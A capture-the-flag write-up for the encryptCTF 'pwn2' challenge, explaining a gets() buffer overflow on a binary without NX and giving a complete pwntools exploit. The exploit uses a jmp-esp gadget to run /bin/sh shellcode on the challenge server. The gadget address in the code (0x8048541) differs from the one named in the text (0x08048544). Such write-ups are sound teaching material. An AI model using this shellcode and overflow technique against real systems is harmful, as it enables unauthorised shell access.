 # pwn2

```pwn2``` was a binary that just let us run the command ```ls``` on a server.

Output:
```
$ ls
flag.txt
pwn2
Bye!
```

The binary itself was vulnerable due to classic a ```gets``` overflow. 

There was not a ```win``` function that we could jump to like the previous challenge.

When checking ```checksec``` we can see the binary doe not have NX enabled. This means we can run some shellcode.

```
[*] '/home/main_user/GitHub/CTF_Writeups/2019/ENCRYPT/pwn/pwn_2/pwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

The hardest thing about shellcode exploits is actually reaching and executing shellcode consistently on different machine configurations.

With further investigation into the binary I was able to find the perfect ROP gadget for executing the shellcode

```
0x08048544 : jmp esp
```

This will take us to the top of the stack. This is a perfect command to execute our shellcode.

This being put together will result in a payload that is:

```
BUFFER JUNK      RETURN ADDR           SHELLCODE
 [ A x 44]    +   [jmp esp]    +   [\x31\xc0\x50\....]
```

The exploit for the challenge is below:


```python
from pwn import *
import struct

r = remote("104.154.106.182", 3456)

# Length of the vuln buffer
BUFFER_LEN = 44

# sh shellcode 
SHELLCODE = b""
SHELLCODE += b"\x31\xc0\x50\x68\x2f\x2f\x73"
SHELLCODE += b"\x68\x68\x2f\x62\x69\x6e\x89"
SHELLCODE += b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
SHELLCODE += b"\xcd\x80\x31\xc0\x40\xcd\x80"

# Will take us to just after the ret pointer
# 0x08048544 : jmp esp
ret_add = p32(0x8048541)

payload = b""
payload += b"A" * BUFFER_LEN
payload += ret_add
payload += SHELLCODE

r.recv()
r.sendline(payload)
r.interactive()
```

```FLAG: encryptCTF{N!c3_j0b_jump3R}```